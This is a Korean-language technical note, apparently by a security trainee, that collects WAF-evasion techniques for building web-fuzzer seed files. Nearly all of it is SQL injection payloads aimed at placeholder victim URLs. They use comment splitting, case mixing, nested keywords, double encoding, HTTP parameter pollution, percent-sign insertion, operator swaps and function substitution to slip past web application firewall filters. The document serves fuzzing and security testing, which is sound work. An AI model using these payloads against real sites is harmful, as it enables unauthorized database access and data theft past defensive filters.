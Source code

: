 # Web Fuzzer WAF 우회 기법 분석

**작성자: BoB 보안제품개발 9기 한승훈**

본 문서는 Web Fuzzer 제작시 시드파일에서 활용가능한 WAF우회기법들을 정리한 문서임.

해당 문서를 기반으로 WAF를 우회하기 위한 다양한 시드파일 제작이 필요함.



## 일반 우회 & 공격기법

일반적으로 대부분의 서버 및 WAF 환경에서 사용 가능한 공격 우회 기법에 대해 기술하였다.



### 1. 주석 처리 기법

: 중간 공격 키워드 가운데 주석을 삼입함으로써 WAF우회

```
http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3.....

http://victim.com/news.php?id=1+/*!union*/ /*!select*/ 1,2,3,4….
```



### 2. 대소문자 교체 기법

: 방화벽 필터설정이 다음과 같을 때 /union\select/g 공격 키워드의 대소문자를 변경하여 WAF우회

```
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3...
```



### 3. 키워드 대체 기법

: 웹방화벽의 ``union``, ``select`` 차단을 역이용하여 공격 키워드 WAF우회

```
http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--
```



### 4. 문자 인코딩 기법

: 공격 키워드가 포함된 명령을 인코딩 후 WAF이후에 디코딩하여 WAF우회

```
http://victim.com/news.php id=1%252f%252a*/union%252f%252a/select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users--
http://victim.com/news.php?id=1/**/union/*/select/**/1,2,3/**/from/**/users--
```



### 5. BOF 공격 기법

: 서버의 BOF 유도를 통해 서비스를 공격

```
http://victim.com/news.php?id=1+and+(select 1)=(select 0x414141414141441414141414114141414141414141414141414141414141414141.)+union+select+1,2,version(),database(),user(),6,7,8,9,10--
```



## 고급 우회 & 공격 기법

특정 서버 및 WAF 환경에서 사용가능한 복잡한 공격기법에 대해 서술하였다.



### 1. HTTP 파라미터 분할 및 병합 우회 기법

: 특정 웹서버에서 HTTP 파라미터를 처리하는 방식을 악용에 WAF를 우회하는 방법

| Web Server 종류 |      Parameter 해석기법      |      예시      |
| :-------------: | :--------------------------: | :------------: |
|   ASP.NET/IIS   |    Concatenation by comma    | par1=val1,val2 |
|     ASP/IIS     |    Concatenation by comma    | par1=val1,val2 |
|   PHP/Apache    | The last param is resulting  |   Par1=val2    |
|   JSP/Tomcat    | The first param is resulting |   par1=val1    |
|   Perl/Apache   | The first param is resulting |   par1=val1    |



#### Example) ASP / ASP.NET's 환경에서의 공격 예시

```
http://www.example.com/search.aspx?q=select name&q=password from users 
```

* SQL Injection 공격 시도를 다음과 같이 파라메터 q에 분할하여 전송

* ASP/ASP.NET's 에서는 파라메터 q를 합쳐서 q= select name,password from users 로 인식하게 됨.



### 2. 문자 생략 기법

: 특정 웹서버에서 HTTP 파라미터를 생략하는 로직을 악용에 WAF를 우회하는 방법

* character “%“는 ASP/ASP.NET에서 생략되어 인식됩니다.

* 아래와 같이 정형화된 SQL문을 시도할 경우 방화벽에서 탐지가 되는데, SQL문 중간에 “%” 삽입을 통해 우회가 가능합니다.

```
http://victim.com/news.asp?id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
```



### 3. 필터링 키워드 우회기법

: 특정 웹서버의 필터링 정책의 허점을 활용



#### 3.1 and, or 키워드 우회

* 다음과 같은 SQL 공격 시도시 and, or 을 ||, && 로 대체하여 우회 성공 가능성 높음.

```
Filtered injection: “1 or 1 = 1”, “1 and 1 = 1”
Bypassed injection:  “1 || 1 = 1” “1 && 1 = 1”
```

* 또한 union의 경우도 다음과 같은 우회 방법이 존재함.

```
Filtered injection:	union select user, password from users
Bypassed injection: 1 || (select user from users where user_id = 1) = 'admin'
```



#### 3.2 함수 키워드 우회

SQL Injection 공격에 자주 사용되는 함수를 사용할 경우 WAF에서 쉽게 필터링 함.

이 경우, 자주 사용되는 함수를 비슷한 함수로 변경하여 우회가 가능.

- substring() → mid(), substr(), etc
- ascii() → hex(), bin(), etc
- benchmark() → sleep()

```
Ex)Know:
substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70 
mid((select 'password'),1,1) = 0x70

New:
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

